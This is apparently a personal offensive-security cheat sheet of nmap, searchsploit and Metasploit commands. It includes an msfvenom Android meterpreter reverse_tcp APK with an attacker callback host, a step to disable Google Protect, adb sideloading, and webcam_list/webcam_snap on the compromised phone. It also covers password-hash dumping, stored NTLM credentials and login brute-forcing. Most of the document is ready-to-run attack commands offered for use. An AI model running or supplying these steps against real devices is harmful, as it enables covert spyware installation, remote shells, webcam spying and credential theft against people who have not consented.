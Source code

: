 # OffSec  
  
## Network Analysis  

nmap -sn 192.168.1.*  
nmap {ips} -A -oX hosts.xml  
searchsploit --nmap hosts.xml --json 2>&1 | tee result.json  
  
nmap -T4 -A -v 192.168.1.1 -sV -oX hosts.xml  
searchsploit --nmap hosts.xml --json | tee router_hosts.json  
  
- Wireshark deauth packages:  
wlan.fc.type_subtype == 12  

## MSF 101  

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.126 LPORT=4444 -o android_client.apk  
  
disable Google Protect  
adb connect 192.168.110.230  
adb push android_client.apk /storage/self/primary  
  
msfconsole  
set PAYLOAD multi/handler  
set LHOST 192.168.110.126  
set LPORT 4444  
exploit  
  
Meterpreter:  
webcam_list  
webcam_snap  
  
## MSF  

ddbb:  
systemctl start postgresql  
msfdb init  
db_status  
  
MSF Workspaces:  
workspace  
workspace lab3  
add -> workspace -a lab1  
del -> workspace -d lab1  
  
Other:  
db_nmap -A 192.168.1.1  (shitty snap integration)  
(from msf) db_nmap --unprivileged -T4 -A -Ao nmap_scans/scan_workspace.xml  
nmap -v -T4 -A -oA nmap_scans/%D.xml  
sudo chowm -R username nmap_scans/*.xml  
db_import ~/nmap_scans/*.xml  
  
List by:  
hosts (display scan)  
hosts -c address,os_flavor -S Linux (-c FILTER, -S search)  
services -c name,info -S http  
services -c name,info -p 445  
services -c port,proto,state -p 70-81  
  
Backup:  
db_export -f xml -a workspace_name  
db_import workspace_name  
services -s http -c port 172.16.194.134 -o /root/msfu/http.csv  
  
Credentials:  
creds  
(add) creds -a 172.16.194.134 -p 445 -u Administrator -P 7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::  
  
Loot i.e.:  
use post/linux/gather/hashdump  
run  
loot  (--add to save to ddbb, default just lists)  
  
Exploits:  
use  
show targets  
show payloads  
show options  
show advanced  
show evasion  
  
## Exploit i.e  

nmap -v -T4 -A -oA nmap_scans/%D.xml  
sudo chown -R username nmap_scans/*.xml  
db_import ~/nmap_scans/*.xml  
use mysql_login  
hosts  
hosts -S Linux -R  
